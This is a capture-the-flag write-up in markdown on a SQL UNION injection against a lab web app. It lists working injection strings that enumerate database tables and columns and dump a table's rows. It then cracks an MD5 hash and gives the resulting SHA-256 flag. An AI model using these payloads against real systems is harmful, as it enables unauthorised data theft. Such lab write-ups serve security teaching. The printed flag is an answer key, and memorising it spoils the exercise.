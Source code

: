 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * Input is data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1, this one however does not return error messages

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error:  
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **list_images**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**id,url,title,comment**
>4. Find data  
 >_1 and 1=2 union select 1,concat(id,url,title,comment) from list_images_  
 <br>**5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46**  
 <br>_MD5 DECRYPT-> 1928e8083cf461a51303633093573c46 => albatroz_  
 <br> _toLower -> albatroz => albatroz_  
 <br>_Sh256 ENCRYPT -> albatroz => **f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**_  

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
